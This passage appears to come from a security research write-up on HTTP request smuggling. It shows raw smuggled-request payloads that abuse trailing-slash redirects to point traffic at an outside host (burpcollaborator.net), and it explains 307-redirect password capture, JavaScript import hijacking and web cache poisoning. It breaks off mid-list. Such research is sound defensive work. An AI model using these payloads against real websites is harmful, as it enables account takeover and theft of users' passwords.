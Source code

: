 0 

GET / HTTP/1.1 
Host: www.redhat.com 
X: XGET...

Red Hat - We make open source technologies for the enterprise
The same concept works on SaaS providers; I was able to exploit a critical website built on a well known SaaS platform by directing requests to a different system built on the same platform.

'Harmless' responses
Because request smuggling lets us influence the response to arbitrary requests, some ordinarily harmless behaviours become exploitable. For example, even the humble open redirect can be used to compromise accounts by redirecting JavaScript imports to a malicious domain.

Redirects that use the 307 code are particularly useful, as browsers that receive a 307 after issuing a POST request will resend the POST to the new destination. This may mean you can make unwitting victims send their plaintext passwords directly to your website.

Classic open redirects are quite common by themselves, but there's a variant which is endemic throughout the web as it stems from a default behaviour in both Apache and IIS. It's conveniently considered to be harmless and overlooked by pretty much everyone, as without an accompanying vulnerability like request smuggling it is indeed useless. If you try to access a folder without a trailing slash, the server will respond with a redirect to append the slash, using the hostname from the host header:

POST /etc/libs/xyz.js HTTP/1.1
Host: redacted
Content-Length: 57
Transfer-Encoding: chunked

0

POST /etc HTTP/1.1
Host: burpcollaborator.net
X: XGET /etc/libs/xyz.js HTTP/1.1

HTTP/1.1 301 Moved Permanently
Location: https://burpcollaborator.net/etc/ 
When using this technique, keep a close eye on the protocol used in the redirect. You may be able to influence it using a header like X-Forwarded-SSL. If it's stuck on HTTP, and you're attacking a HTTPS site, the victim's browser will block the connection thanks to its mixed-content protection. There are two known exceptions to this - Internet Explorer's mixed-content protection can be completely bypassed, and Safari will auto-upgrade the connection to HTTPS if the redirection target is in its HSTS cache.

Web Cache Poisoning
A few hours after trying some redirect-based attacks on a particular website, I opened their homepage in a browser to look for more attack surface and spotted the following error in the dev console:

https://52.16.21.24/  net::ERR_CERT_COMMON_NAME_INVALID

This error occurred regardless of which machine I loaded the website from, and the IP address looked awfully familiar. During my redirect probe, someone else's request for an image file had slipped in before my victim request and the poisoned response had been saved by the cache.

This was a great demonstration of the potential impact, but overall not an ideal outcome. Aside from relying on timeout-based detection, there's no way to fully eliminate the possibility of accidental cache poisoning. That said, to minimise the risk you can:

